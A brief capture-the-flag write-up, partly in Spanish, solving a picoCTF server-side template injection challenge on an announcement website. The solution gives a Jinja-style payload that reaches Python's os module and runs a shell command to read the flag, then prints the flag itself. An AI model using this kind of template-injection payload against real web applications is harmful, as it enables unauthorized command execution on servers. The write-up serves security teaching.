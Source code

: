 #### Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
#### Hints 

* Server Side Template Injection.

### Solución
Primero vamos a copiar el siguiente texto, el cual vamos a pegar en el apartado de la pagina que nos brindo el reto {{request.application.**globals**.**builtins**.**import**('os').popen('cat flag').read()}}

 picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
